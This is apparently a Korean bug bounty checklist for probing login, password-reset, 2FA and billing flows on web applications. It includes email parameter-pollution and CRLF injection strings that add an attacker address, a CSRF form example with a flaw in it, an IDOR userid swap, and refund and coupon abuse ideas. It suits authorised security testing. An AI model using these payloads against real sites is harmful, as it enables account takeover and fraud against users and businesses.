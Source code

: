 # 웹 취약점 진단 버그바운티 정찰단계 

## 로그인 페이지 진단

1. 로그인 페이지에서 웹 애플리케이션이 **Google OAuth** 를 사용하는지 확인
- OAuth 잘못된 구성 사용 
2. 로그인 페이지에서 웹 애플리케이션이 **Clickjacking** 에 취약한지 확인
- Login Page Clickjacking 으로 인한 계정탈취 
3. 로그인 페이지에서 **가짜 이메일이나 임시 이메일로 계정을** 생성 할 수있는지 확인
- Email 확인 로직 부족
4. 로그인 페이지에서 **동시 로그인** 가능한지 여부 확인
- 동시 로그인
5. **비밀번호 변경 시 이전 세션**이 만료되지 않는지 확인
- 비밀번호 재설정 세션결함
6. **비밀번호 변경 시 알림 메시지**가 발행되지 않는지 확인
- 비밀번호 변경 모범사례 
7. **비밀번호 변경 시 이전 비밀번호 재사용** 가능 여부 확인
- 비밀번호 변경 모범사례
8. **비밀번호 변경 시 현재 아이디와 동일한 비밀번호 사용** 가능 여부 확인
- 비밀번호 변경 모범사례
10. **이메일 변경 시 변경완료 확인 메시지**가 발행되지 않는지 확인 
- 비밀번호 변경 모범사례
11. **대쉬보드에서 비밀번호 변경 시** 이전 세션이 만료되지 않는지 확인
- 취약한 세션관리
12. 계정 가입 시 사용자 이름에 **하이퍼링크 주입** 가능 여부 확인 
- 하이퍼링크 주입
13. 비밀번호 변경 시 **빈 공간을 사용하여 비밀번호** 생성 가능여부 확인
- 비밀번호 변경 모범사례
14. **DMARC 레코드 정책 누락**으로 인해 이메일 스푸핑 가능여부 확인
- 이메일 스푸핑
15. 비밀번호 변경 기능을 통해 **속도제한** 이메일 스푸핑 여부 확인 
- 이메일 제공업체의 스팸 스푸핑
16. **계정 삭제 시 현재 비밀번호** 필요한 지 여부 확인
- 계정삭제
17. **대쉬보드에서 계정 비밀번호 변경 시 현재 비밀번호** 필요한 지 여부 확인
- 계정탈취
18. **대쉬보드에서 계정 이메일 변경 시 현재 비밀번호** 필요한 지 여부 확인 
- 계정탈취
19. **대쉬보드에서 비밀번호 변경 시** 중요 기능에 대한 속도제한 여부 확인
- 계정탈취
20. **대쉬보드에서 이메일 변경 시** 중요 기능에 대한 속도제한 여부 확인
- 계정탈취
21. **대쉬보드에서 계정 삭제 시** 중요 기능에 대한 속도제한 여부 확인
- 계정탈취 
22. **계정 삭제 시 알림 메시지** 누락 확인
- 비밀번호 모범사례
23. **2FA 설정 시** 현재 비밀번호 묻는지 여부 확인
- 부적절한 인증
24. **2FA 삭제 시** 현재 비밀번호 묻는지 여부 확인 
- 부적절한 인증
25. **로그인 페이지에서 계정잠금** 기능 악용가능 여부 확인
- 계정봉쇄 
26. **로그인 페이지에서** 속도제한 테스트
- 계정탈취
27. **계정 가입 시 HTTP** 로 계정 가입이 가능한지 확인
- 
28. **로그인 페이지에서 HTTP** 로 로그인 가능여부 확인
-
29. **비밀번호 재설정 링크 전송 시 이전 재설정 링크 만료** 여부 확인
-
30. **대쉬보드에서 비밀번호 변경 시 이전 재설정 링크** 만료되는지 여부 확인 
-
31. **비밀번호 재설정 링크를 통해 비밀번호 변경 시 재설정 링크가 만료되지 않는지** 여부 확인
-
32. **비밀번호 재설정 링크 전송 후 이메일 변경** 이후 이전 비밀번호 재설정 링크로 비밀번호 변경 가능여부 확인
-
33. 계정 비밀번호 변경 시 **이메일에 XSS코드 주입** 여부 확인
-
34. 계정 비밀번호 변경 시 공격자 이메일을 추가하여 **매개변수오염** 여부 확인
-
35. 계정 비밀번호 변경 시 OTP 코드를 추가하여 **코드주입** 여부 확인
-
36. 계정 비밀번호 변경 시 **호스트헤더** 주입여부 확인 
-
37. 계정 비밀번호 변경 시 **파라미터 값에 , %20 | %00 구분자 사용** 여부 확인
- email=victim@mail.com|hacker@mail.com
38. 계정 비밀번호 변경 시 **카본카피 사용** 여부 확인
- email=victim@mail.com%0a%0dcc:hacker@mail.com
39. 계정 설정에서 이메일 변경 요청을 캡처하고 CSRF로 공격자 이메일로 변경 캡처 전송
```
<html>
<body>
   <form action="https://evil.com/user/change-email" method="POST">
      <input type="hidden" value="victim@gmail.com"/>
      <input type="submit" value="Submit Request">
   </form>
</body>
</html>
```
40. 계정 아이디 변경 시 IDOR를 사용한 체이닝(chaining) 여부 확인
- userid=500&password=heked123 500은 공격자 ID, 501은 피해자 ID이므로 공격자 ID에서 피해자 ID로 userid를 변경합니다.
42. 2FA에 대한 속도제한 여부 확인
- 계정탈취
43. 대상 사이트에서 **수동으로 외부 링크 찾기(예: 소셜 미디어 계정에 대한 일부 링크 확인) 끊어진 링크** 확인
-
44. 웹 애플리케이션에서 해당 제품을 구매하지 않고 **Verified Reviewer로 리뷰를 게시**할 수 있는지 확인해 보십시오.
-
45. 파일 업로드 필드에서 ext를 허용하는지 확인
-
46. 쿠폰 코드가 재사용 가능한지 확인
-
47. 할인 품목에 포함되지 않는 제품에 할인 코드를 추가
-
48. 프리미엄 기능에 대한 비용을 지불하고 구독을 취소하십시오. 환불을 받았지만 기능이 여전히 사용 가능한 경우 금전적 영향 문제입니다.
-
49. 참-거짓 요청/응답 값을 사용하여 사용자가 프리미엄 기능에 액세스할 수 있는지 여부를 확인합니다.
50. 제품(일반적으로 일부 구독)을 구입하고 환불을 요청하여 해당 기능에 계속 액세스할 수 있는지 확인합니다.
51. 여러 번의 환불을 받을 수 있는지 확인하기 위해 구독 취소(경주 조건)를 여러 번 요청해 보세요.
52. 웹사이트에서 자바스크립트 코드를 보고 API키 / 토큰 찾기, 요청/응답 헤더를 확인하여 API키/토큰 찾기































  ## 로그인 페이지 분석

  

